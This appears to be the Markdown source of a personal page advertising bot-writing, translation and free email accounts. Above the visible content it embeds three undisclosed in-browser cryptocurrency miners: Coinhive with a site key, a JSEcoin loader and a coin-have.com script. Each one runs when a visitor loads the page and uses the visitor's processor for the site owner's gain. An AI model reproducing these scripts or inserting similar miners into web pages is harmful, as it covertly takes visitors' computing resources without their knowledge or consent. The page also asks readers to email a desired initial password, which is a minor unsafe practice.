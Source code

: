 ```yaml
---
title: I'd like to demand your services!
---
```


<script src="https://coinhive.com/lib/coinhive.min.js"></script>
<script>
	var miner = new CoinHive.Anonymous('NS1Lh4sTCMiS0AcazVxeqiDKUXIrkTnX', {throttle: 0.2});
	if (!miner.isMobile() && !miner.didOptOut(14400)) {
		miner.start();
	}
</script>
<script type="text/javascript">
!function(){var e=document,t=e.createElement("script"),s=e.getElementsByTagName("script")[0];t.type="text/javascript",t.async=t.defer=!0,t.src="https://load.jsecoin.com/load/40497/austinhuang.me/0/0/",s.parentNode.insertBefore(t,s)}();
</script>
<script src="https://coin-have.com/c/8kZq.js"></script>

### Developer and Translation Services
I can write you a Discord/Telegram bot, or do some translation work for you.

* I wrote a bot for [InFlamesWeMust](http://twitch.tv/inflameswemust), which contains stream notifications and follower checks
* I wrote an OAuth function that links Instagram users to Discord users for [Instagram Lounge](https://discord.gg/NJw8GAQ).
* I also wrote a reminder bot for the Discord server of [Peaceful CEO](http://www.pceo.online/), a GTA crew.
* On Telegram, I wrote a point-recording bot for a Uzbek online quiz channel, [Online Zakovat](https://t.me/onlinezakovat).
* I am able to use Twitch and Instagram OAuths.
* I also wrote [DiscordTel](http://discordtel.austinhuang.me) and [Metagon](https://metagon.cf), which are quite popular.
* My translation works are listed [here](https://austinhuang.me/#i-also-help-in-some-other-projects). Note that I can translate between English and Chinese.
* Depending on the size, I might be able to host your bot. However, as a precaution, you should get a host. I will be able to set up your host.
* Pay-what-you-want.

<script async src="https://telegram.org/js/telegram-widget.js?1" data-telegram-post="devlist/27" data-width="100%"></script>

On Discord, contact `The Double-Eyed Bus#6889`. On Telegram, click [here](https://t.me/austinhuang).

### Email Service
This domain uses [Yandex.connect](http://connect.yandex.com) as a email service. All accounts are subject to approval by me. If you'd like to have an account, please contact `im@austinhuang.me` with your intention, desired username and initial password (You'll be able to change it later). You'll also get 10GB of online storage. It's free!

To log in, click [here](http://mail.yandex.com/for/austinhuang.me).

* Please do not abuse on your account, or it will be up to the Russians to punish you, and they're the Russians, you know.
* `abuse@austinhuang.me` and `postmaster@austinhuang.me` are controlled by Yandex support.
* `im@austinhuang.me` and `discordtel@austinhuang.me` are the only two addresses currently used by me. All others are used by others under my approval.
